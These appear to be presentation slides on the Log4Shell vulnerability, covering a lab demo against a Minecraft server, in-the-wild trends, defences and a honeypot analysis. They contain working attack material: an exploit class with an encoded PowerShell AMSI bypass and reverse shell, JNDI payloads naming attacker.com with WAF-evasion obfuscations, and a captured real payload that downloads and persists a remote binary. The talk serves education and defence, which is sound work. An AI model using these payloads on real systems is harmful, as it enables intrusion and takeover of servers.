Log4Shell
How it works and how it is exploitedTopics
- How does Log4Shell work 🤔
- Hacking a vulnerable Minecraft server 🖥️
- How is Log4Shell exploited in the wild? 🌳
- How can I protect myself? 🛡️
- How I was attacked 😱
How does Log4Shell work 🤔
Open source logging framework for Java
Used in LOTS of Java applications
Log4Shell
A.K.A. CVE-2021-44228 , CVE-2021-45046, CVE-2021-45105 and CVE-2021-44832 Log4J feature: Lookup at logging time
Java Lookup:
${java:version} → Java version 1.7.0_67The Bad lookup: JNDI Lookup
Java Naming and Directory Interface

${jndi:ldap://example.com/file} → 🌩️How can this be abused?
- JNDI lookup payload is placed in logs
${jndi:ldap://attacker.com/exploit} - Log4J contacts the LDAP server for information
- LDAP server redirects Log4J to an HTTP server which hosts a Java class file
- Content of the class file is downloaded and executed
Hacking a vulnerable Minecraft server 🖥️
Hacking Setup
Two (virtual) computers in the same network
- Victim's machine 🙈
- Attacker's machine 🦁
Victim's machine 🙈
- Windows 10 (with virus scanner disabled 😅)
- Minecraft Server (1.8.8 → Vulnerable to Log4Shell)
Attacker's machine 🦁
- Kali Linux
- Minecraft Client
- Marshalsec LDAP referer
- Http Server
- The (compiled and obfuscated) exploit payload
- Netcat Listener (for incoming connections)
The Exploit
[The code which are executing on the victim's machine 😈]
public class Log4jRCE {
static {
try {
Runtime.getRuntime()
.exec("powershell.exe -exec bypass -enc IwBSAGEAcwB0AGEALQBtAG8AdQBzAGUAcwAgAEEAbQBzAGkALQBTAGMAYQBuAC0AQgB1AGYAZgBlAHIAIABwAGEAdABjAGgAIABcAG4ADQAKACQAaABjAHIAcABiACAAPQAgAEAAIgANAAoAdQBzAGkAbgBnACAAUwB5AHMAdABlAG0AOwANAAoAdQBzAGkAbgBnACAAUwB5AHMAdABlAG0ALgBSAHUAbgB0AGkAbQBlAC4ASQBuAHQAZQByAG8AcABTAGUAcgB2AGkAYwBlAHMAOwANAAoAcAB1AGIAbABpAGMAIABjAGwAYQBzAHMAIABoAGMAcgBwAGIAIAB7AA0ACgAgACAAIAAgAFsARABsAGwASQBtAHAAbwByAHQAKAAiAGsAZQByAG4AZQBsADMAMgAiACkAXQANAAoAIAAgACAAIABwAHUAYgBsAGkAYwAgAHMAdABhAHQAaQBjACAAZQB4AHQAZQByAG4AIABJAG4AdABQAHQAcgAgAEcAZQB0AFAAcgBvAGMAQQBkAGQAcgBlAHMAcwAoAEkAbgB0AFAAdAByACAAaABNAG8AZAB1AGwAZQAsACAAcwB0AHIAaQBuAGcAIABwAHIAbwBjAE4AYQBtAGUAKQA7AA0ACgAgACAAIAAgAFsARABsAGwASQBtAHAAbwByAHQAKAAiAGsAZQByAG4AZQBsADMAMgAiACkAXQANAAoAIAAgACAAIABwAHUAYgBsAGkAYwAgAHMAdABhAHQAaQBjACAAZQB4AHQAZQByAG4AIABJAG4AdABQAHQAcgAgAEwAbwBhAGQATABpAGIAcgBhAHIAeQAoAHMAdAByAGkAbgBnACAAbgBhAG0AZQApADsADQAKACAAIAAgACAAWwBEAGwAbABJAG0AcABvAHIAdAAoACIAawBlAHIAbgBlAGwAMwAyACIAKQBdAA0ACgAgACAAIAAgAHAAdQBiAGwAaQBjACAAcwB0AGEAdABpAGMAIABlAHgAdABlAHIAbgAgAGIAbwBvAGwAIABWAGkAcgB0AHUAYQBsAFAAcgBvAHQAZQBjAHQAKABJAG4AdABQAHQAcgAgAGwAcABBAGQAZAByAGUAcwBzACwAIABVAEkAbgB0AFAAdAByACAAZQBlAHEAZgBxAGgALAAgAHUAaQBuAHQAIABmAGwATgBlAHcAUAByAG8AdABlAGMAdAAsACAAbwB1AHQAIAB1AGkAbgB0ACAAbABwAGYAbABPAGwAZABQAHIAbwB0AGUAYwB0ACkAOwANAAoAfQANAAoAIgBAAA0ACgANAAoAQQBkAGQALQBUAHkAcABlACAAJABoAGMAcgBwAGIADQAKAA0ACgAkAHkAYQB5AG8AaABkAHEAIAA9ACAAWwBoAGMAcgBwAGIAXQA6ADoATABvAGEAZABMAGkAYgByAGEAcgB5ACgAIgAkACgAWwBjAEgAQQBSAF0AKABbAGIAeQB0AEUAXQAwAHgANgAxACkAKwBbAGMASABhAHIAXQAoAFsAYgBZAFQARQBdADAAeAA2AGQAKQArAFsAYwBoAEEAcgBdACgAWwBCAFkAdABlAF0AMAB4ADcAMwApACsAWwBjAEgAYQBSAF0AKABbAEIAWQB0AGUAXQAwAHgANgA5ACkAKwBbAGMASABhAHIAXQAoADQANgApACsAWwBDAGgAYQBSAF0AKABbAGIAWQB0AGUAXQAwAHgANgA0ACkAKwBbAGMAaABBAFIAXQAoADEAMAA4ACsANgAwAC0ANgAwACkAKwBbAGMASABBAFIAXQAoAFsAYgB5AHQARQBdADAAeAA2AGMAKQApACIAKQANAAoAJABtAHcAagB6AGsAaAAgAD0AIABbAGgAYwByAHAAYgBdADoAOgBHAGUAdABQAHIAbwBjAEEAZABkAHIAZQBzAHMAKAAkAHkAYQB5AG8AaABkAHEALAAgACIAJAAoAFsAYwBoAEEAUgBdACgANgA1ACoANQA3AC8ANQA3ACkAKwBbAGMAaABBAHIAXQAoAFsAYgBZAHQARQBdADAAeAA2AGQAKQArAFsAQwBIAGEAUgBdACgAWwBCAFkAdABFAF0AMAB4ADcAMwApACsAWwBjAGgAYQByAF0AKABbAGIAeQB0AGUAXQAwAHgANgA5ACkAKwBbAGMASABBAHIAXQAoADgAMwApACsAWwBjAGgAYQByAF0AKABbAEIAeQBUAEUAXQAwAHgANgAzACkAKwBbAGMAaABBAFIAXQAoADkANwAqADkALwA5ACkAKwBbAEMAaABBAHIAXQAoAFsAQgBZAFQAZQBdADAAeAA2AGUAKQArAFsAYwBoAGEAcgBdACgAWwBiAHkAdABFAF0AMAB4ADQAMgApACsAWwBjAEgAQQByAF0AKAAxADEANwApACsAWwBDAEgAQQBSAF0AKAAzADUAKwA2ADcAKQArAFsAQwBoAGEAUgBdACgAMQAwADIAKwA0ADEALQA0ADEAKQArAFsAQwBoAGEAcgBdACgAWwBiAFkAVABlAF0AMAB4ADYANQApACsAWwBjAGgAYQBSAF0AKAAxACsAMQAxADMAKQApACIAKQANAAoAJABwACAAPQAgADAADQAKAFsAaABjAHIAcABiAF0AOgA6AFYAaQByAHQAdQBhAGwAUAByAG8AdABlAGMAdAAoACQAbQB3AGoAegBrAGgALAAgAFsAdQBpAG4AdAAzADIAXQA1ACwAIAAwAHgANAAwACwAIABbAHIAZQBmAF0AJABwACkADQAKACQAdwBmAHAAegAgAD0AIAAiADAAeABCADgAIgANAAoAJABiAHYAbABmACAAPQAgACIAMAB4ADUANwAiAA0ACgAkAGgAZQBhAHAAIAA9ACAAIgAwAHgAMAAwACIADQAKACQAcgBxAHIAYwAgAD0AIAAiADAAeAAwADcAIgANAAoAJAB5AGcAbwBxACAAPQAgACIAMAB4ADgAMAAiAA0ACgAkAGIAeABkAHgAIAA9ACAAIgAwAHgAQwAzACIADQAKACQAaABsAGEAagBjACAAPQAgAFsAQgB5AHQAZQBbAF0AXQAgACgAJAB3AGYAcAB6ACwAJABiAHYAbABmACwAJABoAGUAYQBwACwAJAByAHEAcgBjACwAKwAkAHkAZwBvAHEALAArACQAYgB4AGQAeAApAA0ACgBbAFMAeQBzAHQAZQBtAC4AUgB1AG4AdABpAG0AZQAuAEkAbgB0AGUAcgBvAHAAUwBlAHIAdgBpAGMAZQBzAC4ATQBhAHIAcwBoAGEAbABdADoAOgBDAG8AcAB5ACgAJABoAGwAYQBqAGMALAAgADAALAAgACQAbQB3AGoAegBrAGgALAAgADYAKQANAAoADQAKACQAYwBsAGkAZQBuAHQAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBTAG8AYwBrAGUAdABzAC4AVABDAFAAQwBsAGkAZQBuAHQAKAAiADEAOQAyAC4AMQA2ADgALgAxADQAMQAuADEAMwAxACIALAA5ADgAOQA4ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==")
.waitFor();
} catch (Exception e) {
e.printStackTrace();
}
}
}
The Attack
How is Log4Shell exploited in the wild? 🌳
And what has happened in the last 3 Months?Current State
Interest has died downand attacks have become background noise 
First days: Automated exploitation
 greynoise.io - With Log4J RCE Attempt filterJanuary - The VMWare Horizon Incident
January - The VMWare Horizon Incident
- Virtual desktop server
- Shodan: 25k accessible installations on the internet
- First targeted attack on product with a wide installation base
- Patching is not trivial
- Continued discovered vulnerabilities found in Log4j, led to that patches had to be applied multiple times
January - Sophos' blog post
January - Sophos' blog post
- Log4Shell will be targeted for years to come
- Mass exploitation was prevented by widespread media coverage. Similar to Y2K
- In the first few days of the attack, mainly cryptominers were installed
- Worried that patched systems still contain backdoors
- Will internal applications ever be patched? Great target for lateral movement
February - Google Cloud stats
February - Google Cloud stats
- 400k scans per day on google cloud servers
- Scans are now just background noise
- Sooner or later all vulnerable systems on the internet will be breached
- More systemic attacks than in the first few days
- Continued attacks as long as exploitation is easy and vulnerable systems are found
Cat and mouse game
WAF maintainers vs attackers- JNDI payload can easily be obfuscated
${jndi:ldap://attacker.com/exploit}${jndi:${lower:l}${lower:d}${lower:a}${lower:p}}://attacker.com/exploit}${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}}://attacker.com/exploit}March - The Qualis platform study
March - The Qualis platform study
- In December Qualis detected 3 Million vulnerable applications on the internet
- In March 30% of applications remain unpatched
- Since January attacks trend down but are still ongoing
- Vulnerable Log4J versions keep getting downloaded
- End of life dependencies which use vulnerable Log4J under the hood are also still used
March - Immersive labs study on cyber thread readiness
March - Immersive labs study on cyber thread readiness
- They offer cybersecurity training
- On average it takes organizations 65 days to complete trainings on new threats
- The Log4Shell trainings were completed within days
- High attention on vulnerability lead to quick education and fast remidiation
Did we avoid the big bang?
How can I protect myself? 🛡️
What you should have done by now
- Check if your project has a vulnerable version of Log4J
- Make sure that you don't include vulnerable Log4J versions in the future
- Be aware what dependencies your project has
- Limit the number of dependencies in your project
What tooling exists?
3 classes of tooling
- Pentest your own service for Log4Shell
- Scan your Java Dependencies for vulnerable Log4J versions
- General Vulnerability Scanners
Pentest yourself
git clone https://github.com/adilsoybali/Log4j-RCE-Scanner.git
cd Log4j-RCE-Scanner
chmod +x log4j-rce-scanner.sh
./log4j-rce-scanner.sh -h
Tries to inject ldap payloads in various headers and parameters
Scan your java dependencies
mvn dependency:tree -Dincludes=org.apache.logging.log4j:log4j-core

Whitesource
- Used heavily in BCI
- Scans all your dependencies for known vulnerabilities
OCAAS
Open source compliance as a service- Platform offered by Bosch.IO
- Dependency vulnerability scan and much more
- Consulting available
- Experience with a lot of different code stacks
Open source supply chain attacks
- Popular targets because of a broad installation base
- Different attack vectors: Find vulnerabilities or infiltration of the supply chain
- Many open source projects are underfunded
- Often obscure features are not turned off by default
- Companies who profit from open source should give back
How I was attacked 😱
My 🍯 story
Then the waiting game started
Timeline
- 15.12.21 🍯 installed
- 16.12.21 first automated scans incoming
- nothing 🥱
- nothing 😔
- 03.01.22 first user joins my honeypot server
- 13.01.22 someone tries to hack me 🥰

Looking at the logs
New connection from 195.154.52.77:36734
Received handshake: 754 2 143.244.178.253:25565
Testing text: FermatSleep
FermatSleep joined the server
Testing text: ${jndi:ldap://195.154.52.77:1389/a}
Fetching payload for: jndi:ldap://195.154.52.77:1389/a
Saved payload to file d014fd3d-e92b-4479-b568-50d8a40c89d0.class
Decompiling the payload
public class Exploit {
public static String script;
public static String execCmd(final String s) {
String s2 = null;
final String[] cmdarray = { "/bin/sh", "-c", s };
try (final InputStream inputStream = Runtime.getRuntime().exec(cmdarray).getInputStream();
final Scanner useDelimiter = new Scanner(inputStream).useDelimiter("\\A")) {
s2 = (useDelimiter.hasNext() ? useDelimiter.next() : null);
}
catch (IOException ex) {
ex.printStackTrace();
}
return s2;
}
public Exploit() throws Exception {
execCmd(Exploit.script);
}
static {
Exploit.script = "url=http://195.154.52.77:8000/mc_server.jar;remote_ip=195.154.52.77;port=$(wget -O- http://$remote_ip:8000/port 2>/dev/null) ;[ $? -ne 0 ] && port=$(curl http://$remote_ip:8000/port 2>/dev/null) ;wget --no-check-certificate $url > /dev/null 2>&1 || curl -k -O $url > /dev/null 2>&1 ;chmod +x ./mc_server.jar;nohup ./mc_server.jar -b $port > /dev/null 2>&1 &cmd=\"$(pwd)/mc_server.jar -b $port\";(crontab -l ; echo \"@reboot $cmd\" ) | sort - | uniq - | crontab - ;echo done ;";
}
}
The exploitation command
url=http://195.154.52.77:8000/mc_server.jar
remote_ip=195.154.52.77
port=$(wget -O- http://$remote_ip:8000/port 2>/dev/null)
[ $? -ne 0 ] && port=$(curl http://$remote_ip:8000/port 2>/dev/null)
wget --no-check-certificate $url > /dev/null 2>&1 || curl -k -O $url > /dev/null 2>&1
chmod +x ./mc_server.jar
nohup ./mc_server.jar -b $port > /dev/null 2>&1 &cmd="$(pwd)/mc_server.jar -b $port"
(crontab -l echo "@reboot $cmd" ) | sort - | uniq - | crontab -
echo done
mc_server.jar 🤔
 Let's have a look at itVirustotal
 Seems to be some kind of reverse shellInvestigating the file
 Not a jar file, it's an executablestrings
 Binary was compiled from gomore strings
 Password and ssh public key?and more strings
Reverse SSH
 Ghidra
First attack server
